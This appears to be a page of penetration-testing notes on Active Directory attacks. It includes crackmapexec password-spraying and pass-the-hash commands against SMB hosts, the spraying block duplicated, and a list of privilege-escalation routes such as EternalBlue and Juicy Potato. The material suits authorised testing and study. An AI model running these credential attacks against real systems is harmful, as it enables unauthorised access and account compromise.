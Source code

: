 An important consideration is that a valid login is not immediately apparent with rpcclient, with the response Authority Name indicating a successful login. We can filter out invalid login attempts by grepping for Authority in the response. 

#### Password spraying attack with crackmapexec

```shell-session
sudo crackmapexec smb 172.16.5.5 -u valid_ad_users -p Password123 | grep +

# Spraying password with crackmapexec
crackmapexec smb $ip/23 -u /folder/userlist.txt -u administrator -H 88ad09182de639ccc6579eb0849751cf --local-auth --continue-on-success | grep +
# --continue-on-success:  continue spraying even after a valid password is found. Useful for spraying a single password against a large user list
# --local-auth:  if we are targetting a non-domain joined computer, we will need to use the option --local-auth. The --local-auth flag will tell the tool only to attempt to log in one time on each machine which removes any risk of account lockout.
# -H: hash
```

### Lateral Movement

####  Spraying password technique in the domain with crackmapexec

```
# Spraying password with crackmapexec
crackmapexec smb $ip/23 -u /folder/userlist.txt -u administrator -H 88ad09182de639ccc6579eb0849751cf --local-auth --continue-on-success | grep +
# --continue-on-success:  continue spraying even after a valid password is found. Useful for spraying a single password against a large user list
# --local-auth:  if we are targetting a non-domain joined computer, we will need to use the option --local-auth. The --local-auth flag will tell the tool only to attempt to log in one time on each machine which removes any risk of account lockout.
# -H: hash
```

**This technique, while effective, is quite noisy and is not a good choice for any assessments that require stealth.** 


### Privileges escalation 

There are several ways to gain SYSTEM-level access on a host, including but not limited to:

- Remote Windows exploits such as MS08-067, EternalBlue, or BlueKeep.
- Abusing a service running in the context of the `SYSTEM account`, or abusing the service account `SeImpersonate` privileges using [Juicy Potato](https://github.com/ohpe/juicy-potato). This type of attack is possible on older Windows OS' but not always possible with Windows Server 2019.
- Local privilege escalation flaws in Windows operating systems such as the Windows 10 Task Scheduler 0-day.
- Gaining admin access on a domain-joined host with a local account and using Psexec to launch a SYSTEM cmd window

